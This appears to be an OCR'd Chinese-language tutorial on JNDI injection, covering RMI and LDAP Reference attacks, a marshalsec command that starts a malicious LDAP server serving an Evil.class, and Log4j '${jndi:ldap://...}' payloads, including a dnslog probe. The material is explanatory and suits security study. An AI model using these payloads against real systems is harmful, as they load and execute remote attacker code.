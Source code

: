 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可
logger.info("${jndi:ldap://xx.dnslog.cn}");
```
